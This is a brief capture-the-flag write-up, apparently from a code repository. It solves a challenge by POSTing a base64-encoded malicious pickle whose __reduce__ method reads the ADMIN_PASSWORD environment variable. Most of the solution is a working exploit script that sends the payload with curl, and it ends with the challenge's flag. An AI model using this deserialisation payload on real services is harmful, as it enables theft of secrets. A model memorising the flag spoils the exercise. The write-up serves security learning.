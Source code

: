 Solution
========

The solution is to POST a pickled object to `/text`, where this object
has a `__reduce__` method that calls `os.getenv` to obtain the value of
the `ADMIN_PASSWORD` environment variable.

Check the following code for a minimal answer for this problem (with
minimal dependencies):

```python
import pickle
import os
import base64

class Exploit(object):
    def __reduce__(self):
        return (os.getenv, ("ADMIN_PASSWORD",))

exploit = pickle.dumps(Exploit())
payload = base64.b64encode(exploit)
os.system("curl -X POST http://vagrant-ctf.local:30877/text -d '%s'" % payload)
```

Reference: https://lincolnloop.com/blog/playing-pickle-security/


Flag
----

`thisIs!the&nSwer`
